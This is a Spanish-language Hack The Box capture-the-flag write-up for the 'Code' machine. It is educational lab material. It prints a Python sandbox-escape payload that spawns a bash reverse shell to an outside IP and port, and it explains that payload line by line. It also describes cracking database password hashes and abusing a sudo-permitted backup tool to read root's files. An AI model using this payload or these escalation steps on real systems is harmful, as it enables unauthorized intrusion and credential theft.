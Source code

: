 ![alt text](image/code0.png)

| MAQUINA |  OS   | DIFICULTAD |  PLATAFORMA  |    IP    |
| :-----: | :---: | :--------: | :----------: | :------: |
|  CODE   | LINUX |   FACIL    | HACK THE BOX | CODE.HTB |
## *Reconocimiento*

Comenzamos con un escaneo simple a la IP generada en Hack the box para esta maquina y se encuentra 2 puertos abiertos.

![alt text](image/code1.png)
En la búsqueda de directorios solo encontramos los que trae la pagina principal, no había mucho que buscar y tampoco se hallaron subdominios.

## *Análisis de vulnerabilidades*

La pagina trae un entorno de desarrollo con el lenguaje python, entre muchos códigos que podamos hacer hay una limitación a la hora de importar módulos, la pagina no nos permite trabajar con palabras clave
![alt text](image/code2.png)
![alt text](image/code3.png)
Con ayuda de un foro encontré una solución para bypassear una reverse shell en python. Como no comprendí muy bien este código hice que chatgpt me aclarara.

```python
().__class__.__base__.__subclasses__()[317](
["/bin/bash","-c","bash -i >& /dev/tcp/10.10.15.132/1234 0>&1"])
```
## 🔍 **Paso a paso de la ejecución**

1️⃣ `()` → **Crea una instancia de un objeto vacío**

- En Python, `()` representa un **objeto sin definir**.
    
- Luego, se accede a sus atributos internos.
    

2️⃣ `().__class__` → **Obtiene la clase del objeto**

- `().__class__` devuelve `<class 'tuple'>`, ya que `()` es una tupla vacía.
    

3️⃣ `().__class__.__base__` → **Obtiene la clase base de la tupla**

- La clase base de `tuple` en Python es `object`, por lo que `().__class__.__base__` devuelve `<class 'object'>`.
    

4️⃣ `().__class__.__base__.__subclasses__()` → **Lista todas las subclases de `object`**

- En Python, `object` es la clase base de todo.
    
- `.subclasses__()` devuelve una lista de **todas las clases derivadas** de `object` en memoria.
    

5️⃣ `()[317]` → **Accede a una clase específica**

- `__subclasses__()` devuelve una lista de cientos de clases.
    
- `317` es el índice de la clase que queremos (que en muchas versiones de Python es `subprocess.Popen` o similar).
    

6️⃣ `()[317]([...])` → **Ejecuta un comando con `subprocess.Popen`**

- `[317]` selecciona la clase `subprocess.Popen`.
    
- Se ejecuta con `(["/bin/bash","-c","bash -i >& /dev/tcp/10.10.15.132/1234 0>&1"])`.

![alt text](image/code4.png)
Antes de correr el script debo estar en escucha para poder tener la reverse shell. Ejecuto el script y tengo acceso a la ruta de producción.
![alt text](image/code5.png)
Encuentro las palabras claves que no podían ser leídas por el IDE.
![alt text](image/code6.png)
Saliendo de la ruta app encontramos la primera flag de usuario.
![alt text](image/code7.png)
Seguía indagando y encontré una base de datos con sus usuarios y contraseñas hasheadas
![alt text](image/code8.png)
![alt text](image/code9.png)
Ya con la credencial de martin accedo al ssh y nos encontramos con un archivo json y otro comprimido. Quiero saber que trae el archivo json y encuentro lo siguiente.
![alt text](image/code10.png)
![alt text](image/code11.png)
Con la ayuda del operador EOF puedo editar un archivo usando **cat**, lo que haria este archivo es traer el directorio en donde se encuentre /root/root.txt y comprimirlo. Para que este puede ejecutarse acudimos a sudo y el comando el cual martin puede trabajar, llamamos al mismo tiempo al archivo y comienza a comprimirse.
![alt text](image/code12.png)
Revisamos y tenemos un nuevo archivo comprimido con extension .tar, descomprimimos y tenemos la carpeta root con su flag.
![alt text](image/code13.png)
